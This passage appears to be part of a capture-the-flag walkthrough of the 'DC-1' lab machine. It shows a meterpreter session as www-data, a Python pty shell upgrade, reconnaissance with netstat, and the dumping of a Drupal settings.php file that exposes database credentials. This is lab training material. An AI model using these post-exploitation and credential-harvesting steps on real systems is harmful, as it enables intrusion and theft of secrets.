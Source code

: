 meterpreter > getuid  
>Server username: www-data (33)  
  
We pop up a interactive shell and start testing:  
  
>python -c 'import pty;pty.spawn("/bin/bash")'    

www-data@DC-1:/var/www$ hostname  
>DC-1  
  
www-data@DC-1:/var/www$ id  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
  
www-data@DC-1:/var/www$ cat flag1.txt  
>Every good CMS needs a config file - and so do you.  
  
www-data@DC-1:/var/www$ netstat -punta | grep LISTEN  
>(Not all processes could be identified, non-owned process info  
> will not be shown, you would have to be root to see it all.)  
>tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                 
>tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                 
>tcp        0      0 0.0.0.0:48991           0.0.0.0:*               LISTEN      -                 
>tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                 
>tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -       
  
We see a SMTP server that could lead to something and a mysql server. Let's explore that option first:  
  
www-data@DC-1:/var/www$ cat sites/default/settings.php   
>\<\?php  
>  
>\/\*\*  
> \*  
> \* flag2  
> \* Brute force and dictionary attacks aren't the  
> \* only ways to gain access (and you WILL need access).  
> \* What can you do with these credentials?  
> \*  
> \*\/  
>  
>$databases = array (  
>  'default' =>   
>  array (  
>    'default' =>   
>    array (  
>      'database' => 'drupaldb',  
>      'username' => 'dbuser',  
>      'password' => 'R0ck3t',  
>      'host' => 'localhost',  
>      'port' => '',  
>      'driver' => 'mysql',  
>      'prefix' => '',  
>    ),  
>  ),  
>);  
>  
  